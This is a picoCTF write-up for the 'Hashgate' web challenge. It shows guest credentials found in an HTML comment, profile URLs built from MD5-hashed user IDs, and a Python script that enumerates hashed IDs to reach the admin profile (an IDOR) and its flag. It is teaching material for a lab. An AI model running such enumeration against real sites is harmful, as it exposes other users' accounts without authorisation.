


## Introduction

This is another medium web picoCTF challenge titled [Hashgate](https://learn.cylabacademy.org/library/750?category=1&page=1&difficulty=2).

It has the following decription:

**You have gotten access to an organisation's portal. Submit your email and password, and it redirects you to your profile. But be careful: just because access to the admin isn’t *directly* exposed doesn’t mean it’s secure. Maybe someone forgot that obscurity isn’t security... Can you find your way into the admin’s profile for this organisation and capture the flag?**

From the description maybe the admin page is not in `/admin` but rather in another confusing or obfuscated path like `/ungabunga` and maybe we may find it in `robots.txt`.

## Recon

Now let's start with basic manual recon seeing what the website offers.

### Manual Investigation

When we open the website we find a login form that asks for email and password as shown in the following image.



When I try to enter a cred it alerts me a popup saying invalid ones as shown in the following image.



Since it alerts maybe the login logic is in the client side written in JS so let's check the code source.

### Code Source

The HTML has all of the following interesting information:

```html
<!-- Email: guest@picoctf.org Password: guest -->
</head>
<body>

  <form id="loginForm">
    <h2>Login</h2>
    <label for="email">Email</label>
    <input type="email" id="email" name="email" placeholder="Enter your email" required />
    
    <label for="password">Password</label>
    <input type="password" id="password" name="password" placeholder="Enter your password" required />
    
    <button type="submit">Login</button>
  </form>

  <script>
    document.getElementById('loginForm').addEventListener('submit', async function(event) {
        event.preventDefault();

        const formData = {
            email: document.getElementById('email').value,
            password: document.getElementById('password').value
        };

        try {
            const response = await fetch('/login', {
                method: 'POST',
                headers: { 'Content-Type': 'application/json' },
                body: JSON.stringify(formData),
                redirect: 'follow'
            });

            if (response.redirected) {
                window.location.href = response.url;
            } else {
                const data = await response.json();
                if (data.error) {
                    alert('Error: ' + data.error);
                } else {
                    alert('Invalid credentials.');
                }
            }
        } catch (error) {
            console.error('Error:', error);
            alert('Something went wrong.');
        }
    });
  </script>
```

The interesting things here are:

1. Some provided credentials in the HTML comment `Email: guest@picoctf.org Password: guest`
2. Some logic of how the logic system works like it is mentioned in the challenge description if you are identified as a user you get redirected to your own url.

Let's try to login with the provided creds.

After logging in we get redirected to the page `/profile/user/e93028bdc1aacdfb3687181f2031765d` and it contains the following text:

```txt
Access level: Guest (ID: 3000). Insufficient privileges to view classified data. Only top-tier users can access the flag.
```

Now what is interesting is that hash in the end of the url it is stored in the database because when I login again it stays the same so let's put it on crackstation and see what it gives us.

The interesting thing is shown in the following image it actually is 3000 encoded in md5.


So basically to access a user you need to put its md5 id hash in the url and thus you can access it.

I tried to access admin by typing lower priviliges like 0 or 1 or 1000 or even 4000 but the user is not found ... So what we will try is brute forcing but not number by number we will make it a clever script.

## Exploitation and Payload Writing

First I tried to brute force from 0 to 10000 but it was a long way actually and then I opened to see hints and I saw this `There are about 20 employees in this organisation.` ... They could've mentioned this critical info from the beginning... Now the brute force is from 3000 to 3020 and let's execute the following payload.

```py
import requests
import hashlib

def store(url):
	with open("stored.txt", "at") as f:
		f.write(url+'\n')

for i in range(3000,3021):
	
	url = f"http://crystal-peak.picoctf.net:58340/profile/user/{hashlib.md5(str(i).encode()).hexdigest()}"
	print(f"trying {i} : URL {url}")
	r = requests.get(url)

	if 'Insufficient' not in r.text and 'User not found' not in r.text:
		store(url)
```

Basically we loop from 3000 to 3020 and hash each value and go to the desired url if it contains one of the unwanted strings we pass if not we store the url in a txt file.

After running this script and checking `stored.txt` we find the following link:
`http://crystal-peak.picoctf.net:58340/profile/user/a74c3bae3e13616104c1b25f9da1f11f` it is for userID 3019 and when we open it we find the flag in the following text:

`Welcome, admin! Here is the flag: picoCTF{id0r_unl0ck_FindYourOwn}`

## Conclusion

That was a nice yet weird exploitation of IDOR ... felt like guessing but I should've brute forced from 3000 rather than starting from 0 that would take forever.
